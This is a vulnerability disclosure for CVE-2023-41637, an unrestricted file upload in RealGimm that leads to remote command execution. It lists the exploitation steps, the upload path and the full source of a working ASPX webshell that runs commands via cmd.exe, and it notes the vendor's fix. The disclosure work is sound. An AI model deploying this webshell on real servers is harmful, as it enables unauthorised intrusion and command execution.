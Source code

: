 # CVE-2023-41637 | RealGimm by GruppoSCAI - RCE via Unrestricted File Upload
An unrestricted file upload vunerability was found in RealGimm version 1.1.37p38. This vulnerability was eventually exploited to obtain remote command execution by uploading a webshell. What follows is a description of the steps taken to perform the exploit.


## Proof of Concept

### Reaching the vulnerable page

The vulnerable form can be found under the section *patrimonio -> documentale -> gestione*. When that link is clicked, the following pop-up window opens.

![Gestione documentale" window](https://github.com/CapgeminiCisRedTeam/Disclosure/assets/132057950/48880855-203a-4cc6-ba67-819d71e4cb8a)

This feature can be used to manage and attach documents to certain database entities. 

### Attaching malicious documents
In order to exploit it, we first search for an *immobile ID*. Once having found one existing item, it is possible to attach a new version of a document by clicking the button highlighted in the following figure.

![Add new document button](https://github.com/CapgeminiCisRedTeam/Disclosure/assets/132057950/64cce2fe-a66a-4a7c-8fe3-dd0d605ec81f)


At this point, it is possible to upload a file and verify that the application does not perform any check over the file content that is uploaded. This means that it is possible to upload any malicious file type possible, including .aspx files. 

![File upload procedure](https://github.com/CapgeminiCisRedTeam/Disclosure/assets/132057950/dd78d73f-d964-47f5-a622-4afe6716185d)

All the files are uploaded into the following directory:

`https://[RealGimm Host]/RealGimmWeb/Temp/Upload/<file_name>`

### Obtaining Remote Command Execution

We proceeded by uploading the following webshell (taken from [here](https://github.com/tennc/webshell/blob/master/fuzzdb-webshell/asp/cmd.aspx)).

```
<%@ Page Language="VB" Debug="true" %>
<%@ import Namespace="system.IO" %>
<%@ import Namespace="System.Diagnostics" %>

<script runat="server">      

Sub RunCmd(Src As Object, E As EventArgs)            
  Dim myProcess As New Process()            
  Dim myProcessStartInfo As New ProcessStartInfo(xpath.text)            
  myProcessStartInfo.UseShellExecute = false            
  myProcessStartInfo.RedirectStandardOutput = true            
  myProcess.StartInfo = myProcessStartInfo            
  myProcessStartInfo.Arguments=xcmd.text            
  myProcess.Start()            

  Dim myStreamReader As StreamReader = myProcess.StandardOutput            
  Dim myString As String = myStreamReader.Readtoend()            
  myProcess.Close()            
  mystring=replace(mystring,"<","&lt;")            
  mystring=replace(mystring,">","&gt;")            
  result.text= vbcrlf & "<pre>" & mystring & "</pre>"    
End Sub

</script>

<html>
<body>    
<form runat="server">        
<p><asp:Label id="L_p" runat="server" width="80px">Program</asp:Label>        
<asp:TextBox id="xpath" runat="server" Width="300px">c:\windows\system32\cmd.exe</asp:TextBox>        
<p><asp:Label id="L_a" runat="server" width="80px">Arguments</asp:Label>        
<asp:TextBox id="xcmd" runat="server" Width="300px" Text="/c net user">/c net user</asp:TextBox>        
<p><asp:Button id="Button" onclick="runcmd" runat="server" Width="100px" Text="Run"></asp:Button>        
<p><asp:Label id="result" runat="server"></asp:Label>       
</form>
</body>
</html>
```

Eventually, we visited the uploaded file's URL and found our webshell ready to execute some code.

![Webshell](https://github.com/CapgeminiCisRedTeam/Disclosure/assets/132057950/07064599-facf-4d9c-9467-ab8ea36f5d3b)



## Remediation

GruppoSCAI fixed the vulnerability. The fix was subsequently analyzed and was confirmed to be effective.


## Vulnerable version of RealGimm

As a result of our testing, version 1.1.37p38 is considered to be affected by this vulnerability. 


## Discovered by

Francesco Mercatili

Paolo Caminati

Claudio Rimensi
